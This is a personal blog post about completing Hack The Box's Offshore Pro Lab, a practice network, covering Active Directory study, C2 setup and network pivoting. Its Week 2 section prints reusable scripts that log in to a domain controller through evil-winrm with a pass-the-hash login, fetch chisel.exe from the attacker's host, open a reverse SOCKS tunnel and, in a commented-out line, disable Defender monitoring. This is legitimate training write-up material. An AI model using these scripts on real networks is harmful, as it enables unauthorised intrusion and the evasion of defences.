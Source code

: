 ```yaml
---
title: Offshore
layout: single
categories: [blog]
permalink: /:categories/:year/:month/:day/:title/
classes: wide
toc: true
show_date: true
excerpt: "My journey through HTB's Offshore Pro Lab!"
---
```


# Intro

December was gonna be another month of lockdown at home without much to do, so after a friend pwned it, and some nice troll from the InfoSec Prep discord started it, I decided to follow suit and to dedicate the month to [Offshore](https://www.hackthebox.eu/home/labs/pro/view/2)! Unfortunately I was a bit impatient, bought the lab access on the 1st of December at midnight, turned out that they had a 50% discount from the 1st of December, which was rolled out during the day, so missed that 😅

# Getting up to speed with Active Directory

I had dedicated the last 2 weeks of November to get up to speed with Active Directory and the attacks on it, I used [Attacking and Defending Directory](https://www.pentesteracademy.com/course?id=47) from PentesterAcademy (which is what comes bundled up with CRTP), the AD section of Heath Adam's Practical Ethical Hacking Udemy [course](https://www.udemy.com/course/practical-ethical-hacking/), and various blog posts about specific attacks I found after googling around a bit. Overall it was very much needed, as my first and last interaction with AD was with the HTB Forest box, which I had done while it was active, but with way too many hints, and without understanding what I was doing. Putting words in my head behind how Kerberos works, what kerberoasting or asreproasting is, how to get golden/silver ticket, etc helped a lot understanding the basics.

I even made my own little AD lab first on Azure, then at home, to follow along some attacks on Heath Adams' course and to experiment a bit. Some resources for that [here](https://csenox.github.io/active-directory/2020/10/07/AD-Lab/), [here](https://medium.com/@vartaisecurity/lab-building-guide-virtual-active-directory-5f0d0c8eb907), [here](https://kamran-bilgrami.medium.com/ethical-hacking-lessons-building-free-active-directory-lab-in-azure-6c67a7eddd7f), [here](https://medium.com/swlh/building-an-active-directory-lab-part-1a-automatedlab-fc2399ebe5be), [here](https://social.technet.microsoft.com/wiki/contents/articles/36438.windows-server-2016-build-a-windows-domain-lab-at-home-for-free.aspx), and [here](https://1337red.wordpress.com/building-and-attacking-an-active-directory-lab-with-powershell/).

I decided to take the opportunity to learn some new tools, so I set up [Obsidian](https://obsidian.md/) for note taking, and [Covenant](https://github.com/cobbr/Covenant) as a C2. Spoiler, I ended up using more often metasploit than covenant as a C2 haha! Also set up a [Commando VM](https://github.com/fireeye/commando-vm) that could access my covenant server running on my Parrot machine, ended up doing everything from Parrot...

# Week 1: Baby steps

Armed with my new found AD knowledge, I started Offshore... and didn't see any AD attacks for a while 😅 There was some web attacks, a first pivot using SSH, some looking around making lots of noise (a blue teamer in charge of the offshore domains would have been able to run circles around me :P). But making friends along the way especially in the HTB discord server, we got together for some challenges, and I was at 25% at the end of my first week, on track to finish by Christmas!

# Week 2: Pivoting...

The first domain owned, started the pivoting game, and the AD attacks. It took me a few hours to find the best solutions for pivoting through the domains, using this [post](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/) which was very thorough in the many ways a red teamer can pivot through a network, and tired of having to type commands over and over, I decided to script my pivoting, and here's the result: (spoiler free and re-usable)

+ `pivot2.sh` to serve chisel64.exe, pipe the powershell script to evil-winrm, and set the proxychains config for this DC:

```bash
#!/bin/bash

if [ $# -ne 1 ]; then
    echo '-s[tart]/-r[un]'
    exit
fi

sudo sed -i 's/127\.0\.0\.1 108./127\.0\.0\.1 1080/' /etc/proxychains.conf

if [[ $1 = '-s' ]]; then
    echo '[+] Serving on port 8000...'
    python3 -m http.server 8000 > /dev/null 2>&1 &
    cat pivot2_s.ps1 | evil-winrm -u administrator -H YOUTHOUGHTYOUDSEEAHASHDIDNTYOU -i 172.16.X.X
else
    cat pivot2_r.ps1 | evil-winrm -u administrator -H YOUTHOUGHTYOUDSEEAHASHDIDNTYOU -i 172.16.X.X
fi
```

+ `pivot2_s.ps1` to upload and run the chisel client on the DC:

```powershell
# Set-MpPreference -DisableRealtimeMonitoring $true
cd ../appdata/local/temp
curl -outf chisel.exe http://10.10.14.XX:8000/chisel64.exe
./chisel client 10.10.14.XX:12345 R:1080:socks
```

+ `pivot2_r.ps1` to run the chisel client if it's already uploaded:

```powershell
# Set-MpPreference -DisableRealtimeMonitoring $true
cd ../appdata/local/temp
./chisel client 10.10.14.XX:12345 R:1080:socks
```

+ `pivot3.sh` to kill the HTTP server, launch the chisel server, and change the proxychains config for the new pivot:

```bash
#!/bin/bash

ps -aux | grep http.server | grep 8000 | grep -P '\d+' -o | head -1 | xargs kill 2>&1 > /dev/null
sudo sed -i 's/127\.0\.0\.1 108./127\.0\.0\.1 1081/' /etc/proxychains.conf
chisel server -p 12345 -reverse
```

You're welcome to steal those short scripts and adapt them for your pivoting needs! As I would get to know, I'd need a few of those to pivot through all the domains, in total 4 pivots!

# Week 3: AD Attacks are yummy

Cross domain and cross forest attacks were kinda new to me but I had a blast learning them! Also, ACLs can hide many juicy things :P Bloodhound was a lot of help in finding out how to abuse some ACLs and trusts, I wish I had used [PowerView](https://exploit.ph/powerview.html) more though and enumerated some stuff manually, would have prevented a lot of VM lagging and crashes because well I had obsidian, covenant, discord, and bloodhound running at the same time... But still learned a lot along the way, and the 3rd week was the 3rd quarter syndrome a bit, seeing how much work I had done, and seeing I had about the same amount still to do, and Christmas approaches...

# Week 4: Flag hunt

Total domain pwnage! I had owned all offshore domains... and was still missing a few flags. So on the enumeration hunt I went, trying to find some hidden flags, and turns out one of those was actually from a challenge that had been removed! Thanks to Ippsec for the help taking care of that!

24th of December, 3 PM, all domain flags in the pocket, getting ready for Christmas cooking... and still lacking one linux machine! This one turned up to be a bit of a closed beast, but was a very nice programming challenge, and I enjoyed writing the script to get the privesc on it, but that was on the 25th. So in the end Offshore completed, just on Christmas day :D And a nice certificate as a gift!

![Offshore Certificate]({{site.url}}/assets/images/offshore-certificate.png)

# Review

Overall I learned during my Offshore journey, some challenges were frustrating, some required a bit of help, I won't hide it, I made good friends along the way, and I'm very happy I could finish it under a month. I would recommend Offshore to all pentesters/hackers who want some more hands-on experience with AD attacks, and pivoting through networks, and who are not shy of googling stuff until it works. Very long but very good experience, looking forward to doing more AD related stuff in the future!
